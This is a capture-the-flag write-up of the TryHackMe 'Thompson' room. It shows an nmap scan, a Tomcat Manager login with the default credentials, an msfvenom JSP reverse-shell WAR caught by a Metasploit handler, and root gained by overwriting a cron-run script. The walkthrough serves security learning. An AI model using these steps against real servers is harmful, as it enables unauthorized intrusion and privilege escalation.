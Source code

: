 ```yaml
---
title : "Thompson - Write Up - Español"
date : 2021-07-04T13:39:34+02:00
author : "Lanfran02"
cover : "cover.png"
useRelativeCover : true
description : "Máquina de nivel fácil en TryHackMe."
tags : ["tomcat","misconfigured","msfconsole","java","TryHackMe"]
---
```


| Link | Nivel | Creador |
|------|-------|---------|
| [Aquí](https://tryhackme.com/room/bsidesgtthompson)  | Fácil  |  [stuxnet](https://tryhackme.com/p/stuxnet)  |

## Reconocimiento

Como siempre, ejecutemos `nmap` para ver qué puertos están abiertos.
```bash
╰─ lanfran@parrot ❯ map 10.10.128.244                                                                                              ─╯
[sudo] password for lanfran: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-04 13:43 CEST
Nmap scan report for 10.10.128.244
Host is up (0.10s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.03 seconds
```
As the name and cover picture of the room indicate, the machine is running an Apache Tomcat server on port 8080.

## Acceso inicial - Usuario

We get the default Tomcat page, and also we can go to `Manager App` tab.

Maybe if we try with the defaults credentials for Tomcat?? 
_tomcat:s3cret_

YES! We are inside!
![Foothold](foothold.png)

And inside here, we can upload a `.war` file!

So let's run `msfconsole` and `msfvenom` to create a payload!


```bash
#Creating the payload
╰─ lanfran@parrot ❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=tun0 LPORT=5555 -f war > shell.war                                ─╯
Payload size: 1091 bytes
Final size of war file: 1091 bytes

```
```bash
#Running Metasploit to handle the reverse connection
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/jsp_shell_reverse_tcp
payload => java/jsp_shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 5555
LPORT => 5555
msf6 exploit(multi/handler) > options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  5555             yes       The listen port
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.6.21:5555
```

Now let's upload our `shell.war` file.

And navigate to the "rare" filename. In my case it was `http://10.10.128.244:8080/hgkFDt6wiHIUB29WWEON5PA/`

After that, we should have a new shell in Metasploit.

```bash
[*] Command shell session 1 opened (10.9.6.21:5555 -> 10.10.128.244:34468) at 2021-07-04 13:57:31 +0200

id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```
Let's upgrade out shell with python.

`python -c 'import pty;pty.spawn("/bin/bash")'`

Great! We can now read the user's flag.

```bash
tomcat@ubuntu:/home/jack$ cat user.txt
3[REDACTED]f
```

## Root

There's a cron job running with root's privs.

So let's go to `/home/jack` and copy the root's flag to a file in our home directory.

```bash
tomcat@ubuntu:/home/jack$ echo "cat /root/root.txt > test.txt" > id.sh
tomcat@ubuntu:/home/jack$ cat id.sh
cat /root/root.txt > test.txt
```

After a minute, we get the root flag in test.txt

```bash
tomcat@ubuntu:/home/jack$ cat test.txt            
d[REDACTED]a
```

¡Y hemos "rooteado" la máquina!

Eso es todo de mi parte, ¡espero que lo encuentre útil!